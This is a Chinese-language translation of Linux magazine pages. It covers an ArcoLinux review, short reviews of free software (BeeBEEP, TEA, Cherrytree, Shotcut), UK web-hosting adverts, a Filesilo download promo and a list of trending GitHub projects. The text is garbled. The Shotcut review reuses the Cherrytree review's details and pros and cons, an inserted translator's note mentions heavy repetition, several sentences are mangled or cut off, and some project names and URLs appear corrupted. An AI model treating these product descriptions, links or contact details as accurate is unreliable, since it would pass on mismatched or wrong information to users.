自定义发行版启动，用吸引人的图标主题和`Plank`欢迎你。`ArcoLinux`使用`Xfce`的菜单，还有壁纸切换器。

在三个版本中，主`ArcoLinux`版本提供了各种环境，充满了生产力应用，并为普通用户设计。光谱的另一端是极简的`ArcoLinuxD`，它配备了足够的组件帮助你构建自己的安装。

### 设置

自定义你的桌面

#### 个人

- 外观

- `Conky`

- 桌面

- 文件管理器

- 面板

- 备选应用程序

- 窗口管理器

- 网络

- `Xfce`终端

#### 硬件

- 蓝牙

- 键盘

- 鼠标和触摸板

- `PulseAudio`音量控制

- 可移动驱动器和媒体

#### 系统

- 辅助

- 添加/删除软件

- 图标编辑器

- `Firefox`

- 防火墙配置

- 固定硬编码图标

- `GParted`

- `Grub Customizer`

- `LXQt`主题设置

- `MIME`类型编辑器

- 快速信息

- 会话和锁定

- 帮助






在上方可以在 `ArchLinux` 的 `GitHub` 页面 (`https://github.com/archlinux`) 上找到大量的脚本，用于创建自己的基于 `ArchLinux` 的发行版。

> 该发行版由多样化的文档设施良好补充，旨在帮助从 `Linux` 新手成长为成熟的 `Arch` 用户，自动生成从硬件规格到桌面主题和版本的各种图表。`ArcoLinux` 的所有选择都有多个选项，包括浏览器和媒体播放器，以及几个桌面和高级编辑器。该发行版还包括 `Openbox` 和 `i3` 桌面环境。这种多样性的缺点是开发者无法将所有内容放入一个环境中，但你可以轻松地从仓库中提取一个。

在可用性方面，该列表缺少 `Arch Linux` 非常图形化的包管理器的其他方面，即那个基于 `Arch` 的命令行工具。开发者花费了大量时间围绕该项目进行构建，这不仅能帮助你在 `ArcoLinux` 中完成工作，还能维护主 `Arch` 安装。

选择是 `ArcoLinux` 的独特特征之一。开发者在 `Xfce` 设置中添加了几个配置来帮助你自定义桌面。你可以使用自定义主题和图标管理安装外观的各个方面。他们还添加了配置，你还可以对主题应用各种效果。有一些实用的小工具，如固定硬编码图标，它将当前主题脚本化图标，使其不违背主题。

值得注意的一点：起初网站看起来杂乱无章，它们应该按照特定的顺序导航，这可能需要一些适应。

`Mayank Sharma`

定制化在两个方面都是一种享受——使用它们以及构建自己的。

需要时间来理解与网站交互的细节。

在一切的核心，将思考过程投入三个发行版中，结合网站演示视频，是值得赞的。它帮助新手刻出一个自然简单、引人注目且自定义的桌面发行版。

# 回顾全新的免费开源软件

## 网络聊天

### BeeBEP 5.0.0

与网络上的同伴聊天的局域网即时通讯软件

`Linux` 桌面拥有多个不同的客户端，许多流行的 `Linux` 发行版在默认安装中都包含一个。`BeeBEP` 提供了现代客户端的所有功能，但它的设计是直接连接你网络上的同伴。除了聊天消息，你还可以使用该工具与家庭网络上的其他用户共享文件。

这种点对点点通讯软件可以自动检测网络上的 `BeeBEP` 用户，使用 `AES` 算法加密消息，并且与其他任何客户端一样，你可以使用该工具发起群聊，或将对话限制在单个用户。界面非常直观，该工具具有拖放等实用功能，你无需通过菜单即可与同伴自由共享文件。

`BeeBEP` 将设置和聊天消息分别存储在 ``bebeep.ini`` 和 ``beebeep.dat`` 文件中，在更新工具版本时这些文件不会受影响。如果你有一个兼容性较差的导入器，`BeeBEP` 可以轻松导入你的消息。对于那些仍在犹豫不决的人，该工具让你可以将截图传输给同伴，甚至支持桌面共享！



虽然你在网站上找不到用户手册，但界面非常直观

- **优点**

  无需安装。只需下载 `tar` 包，解压文件并启动应用程序即可。

- **缺点**

  这个单开发人员的项目维护良好，但仍然是一个业余项目。

- **适用场景...**

  与网络上的同伴进行免费即时聊天。

`http://bebeep.sourceforge.net`

## 文本编辑器

### TEA 45.0.2

一个拥有数百种功能的编辑器

仅仅被标称为文本编辑器，它就支持 `Linux` 发行版中类似于 `Notepad` 和 `Leappad` 的。你认为文本编辑器应该是简单且大胆的，不带有任何用于编程或……的复杂功能。

要扩展 `TEA`，你可以用 `JavaScript` 编写插件来添加额外功能，如语法高亮、行号等——如果你需要更多功能，你只需要切换到文字处理器即可。

然而，`TEA` 是一个矛盾的编辑器，用户界面截然不同。该工具拥有许多意料之外的功能，如内置图像和注释功能、语法高亮、命令行风格的文件浏览器等。

尽管被标称为文本编辑器，但它支持包括 `DOCX` 和 `ODD` 在内的许多文件格式。该项目的主要语言是俄语，但讨论新闻的 `Newsk` 章节和简短介绍（`Short About`）部分也提供了英语。

为了适应其庞大的功能集，`TEA` 使用标签页界面并默认使用编辑器标签。标签将文件存储为选项，日期和方式在侧垂直列表。要进行任何其他操作，你应该花时间阅读手册以了解其整个功能集——或者至少了解它提供的内容。

- **优点**

  易于安装，具有替换打开文件中所有文本等令人印象深刻的功能。

- **缺点**

  缺少字数统计功能以及如亚洲输入等奇特功能。

- **适用场景...**

  各种需求，无论是编程还是创建纯文本文件。

`https://github.com/pasmint/tea-qt`

## 笔记工具

### Cherrytree 0.38.5

简单用且功能丰富的笔记软件


尽管版本号很高，该应用程序已经存在多年且非常稳定。该项目自称为分级笔记记录工具。你可能可以在你的发行版软件中找到最新版本，但安装非常简单，该项目提供了 `RPM` 和 `DEB` 包的源码 `tar` 包，你可以使用它们在任何 `Linux` 发行版中安装该工具。

该跨平台工具适用于 `Windows` 和 `Linux`，并将所有数据存储在单个 `XML` 或 `SQLite` 文件。你可以从 `KeepNote`、`Joplin`、`Tomboy` 等替代方案导入数据。

- **优点**

  界面足够直观，项目还提供了详尽的用户手册。

- **缺点**

  为了适应庞大的功能集，功能非常众多。

`Cherrytree` 支持三种类型的项目：文件夹、子文件夹和笔记。每个项目都表示为一个节点，你还可以为每个节点添加标签，以便查找你正在寻找的笔记或文件夹。你还可以向笔记中添加内容、标记重要事项并将图像导入到节点中，使所有数据都有意义。

- **适用场景...**

  以逻辑方式组织你的笔记，并将其导入和导出到其他格式。 `www.glusen.com/cherrytree`

此外，该应用提供了许多自定义选项，更改侧边栏节点的外。

## 视频编辑器

### Shotcut 18.07.02

支持许多格式的轻量级视频编辑器


适用于 `Linux`、`Mac` 和 `Windows`，这个功能强大的编辑器最新版本具有许多特性。与其他一些简单工具不同，该项目通过对其功能的支持证明了自己，你无需复杂操作即可使用它。你可以使用时间轴进行多轨道视频的非线性视频编辑。通过 `FFmpeg`，该工具支持多种……

该跨平台工具适用于 `Windows` 和 `Linux`，并将所有数据存储在单个 `XML` 或 `SQLite` 文件。你可以从 `KeepNote`、`Joplin`、`Tomboy` 等替代方案导入数据。

- **优点**

  界面足够直观，项目还提供了详尽的用户手册。

- **缺点**

  为了适应庞大的功能集，功能非常众多。

（注：原文中后续部分存在大量文本重复，翻译已按要求对重复逻辑处理）

# 顶级托管

## SSD 网站托管


`www.cwcs.co.uk`

`0800 1 777 000`

`www.bargainhost.co.uk`

`0843 289 2681`

`CWCS` 托管托管是英国领先的托管专家。他们提供全方位的托管产品、服务和支持。高技能的员工不仅是托管专家，还致力于提供卓越的客户体验，并对所从事的事充满热情。

自 2001 年以来，`Bargain Host` 一直致力于在英国提供价格最低的托管服务。它已成功实现这一目标，并建立了一个包括满意客户在内的大型客户数据库。它还因提供卓越的托管服务而屡获殊荣。

- 托管机托管
- `VPS`
- `100%` 网络可用性


## 企业级托管

`www.200Media.com`

新用户可以使用预装的 `WordPress`，或选择免费的托管服务。`WordPress` 服务首年免费。

我们以“专业且卓越的服务”闻名，将满足您的任何需求。我们的开发者和经理遍布全英国。

- 虚拟主机托管
- 云托管

## 高性价比托管

### 高性价比 Linux 托管


# elastosts

`elastosts.co.uk`

`0271 83256`

`patchman-hosting.co.uk`

`ElastHosts` 为全球范围的企业提供简单、灵活且具有成本效益的云服务，具有高性能、可靠性和可扩展性。我们的工程师团队通过电话、电子邮件和工单系统提供 24 小时的专家支持。


Linux 托管是家庭用户、商业用户和网页设计师的理想解决方案，提供了高效益且强大的托管服务。无论您是在构建一个大型组合网站还是运行一个数据库驱动的网站，都有适合您的 Linux 托管解决方案。

- 任何操作系统的云服务器
- Linux OS 配置
- 世界级 24/7 全天支持
- 学生托管优惠
- 网站设计器
- 域名

## 小型企业托管


## 快速、可靠的托管


`www.bytextmark.co.uk`

0190 094 890

`hostpa.co.uk`

0850 01 7126

HostPa 是一家屡获殊荣的网络托管服务，绿色托管的领导者。它提供功能最全面的托管包之一，以及 24/7* 客户支持、学习资源和卓越的可靠性。

Bytextmark 成立于 2002 年，是英国云托管和域名托管专家。我们的内部团队由支持人员和顶级托管硬件组成，以公平的价格提供专家、透明、免费的托管服务。

- 网站生成
- 预算价格
- 无限制数据库

## 预算型托管：

`www.hetzner.de/us` | +49(0)9831 5050


价格和灵活的托管及服务让 Hetzner 能够不断提升其在国内和国际的市场地位。

- 独立托管和虚拟托管
- 托管机服务器
- 互联网域名和
- SSL 证书
- 存储
- 托管托管
- 英国云托管
- Linux 托管

`www.linuxuser.co.uk`

## 免费资源

## 欢迎来到 Filesilo！

从您的 Filesilo 账户下载最好的发行版、必备开源软件（FOSS）以及您所有的教程项目文件


## 它是什么？

每当你在杂志中看到这个符号时，就有在线内容在 Filesilo 上等待解锁。


## 为什么要注册？

- 安全可靠的在线访问，随地随
- 每位读者（纸质和数字版）均可免费访问
- 在需要时下载您想要的文件。
- 所有期数的礼物都集中放在一处

## 1. 解锁您的内容

访问 `filesilo.co.uk/linuxuser` 并按照屏幕上的说明创建我们的 Filesilo 系统创建账户。当您收到杂志或数字版时，登录您的账户，通过根据杂志页面回答简单问题来解锁单期内容，即可立即获取额外奖励。简单！

## 2. 享受资源

您可以在任何电脑、平板或智能手机设备上使用任何流行浏览器访问 Filesilo。但是，我们建议您使用电脑下载文件给他人。如果您在访问 Filesilo 内容时遇到任何问题，请查看常见问题解答（FAQs）或发送电子邮件至 `fileshelp@future.net` 我们的我们的团队。

> 数字读者同样免费！

在平板电脑上阅读，在电脑上下载


# 登录 `www.filesilo.co.uk/linuxuser`




# 订阅并获取即时访问


# 热门开源

本月趋势是什么？

- `GoogleChrome` | `db` | 6722 星 | 15 位贡献者 | Chrome 的调试体验
- `browse-org` | `cloud` | 5736 星 | 18 位贡献者 | 现代互联网
- `jessuffield` | `lazygit` | 4454 星 | 10 位贡献者 | Git 终端界面
- `GoogleContainerTools` | `jib` | 3668 星 | 9 位贡献者 | 用于应用的 Docker 和 OCI 镜像
- `dylanbeatie` | `rocketstar` | 3871 星 | 18 位贡献者 | “摇滚”编程语言
- `vuejs` | `vue` | 3925 星 | 189 位贡献者 | 用于 UI 的渐进式 JavaScript 框架
- `goocloud` | `cloud` | 3655 星 | 16 位贡献者 | 开源云开发工具
- `hausa` | `graphql-engine` | 3238 星 | 14 位贡献者 | 基于 Postgres 的快速 GraphQL API 服务器

贡献者人数 200+


> 模糊？但 Browser 文本浏览器正在使用 3kbps 的互联网连接

浏览器亮点

`browse.org`：本月有很多项目围绕使用 `Terminalizer` 编码 Git 演示以与 Git 命令交互，Browser 很有趣。这是一种使用无头 Firefox 渲染 HTML、CSS、JavaScript 和视频的文本浏览器——它通过 SSH/连接在远程服务器上运行。在非常复古酷炫的同时，Browser 为您提供了真正的互联网访问。

下期于 9 月 20 日

精简 Linux | 更多


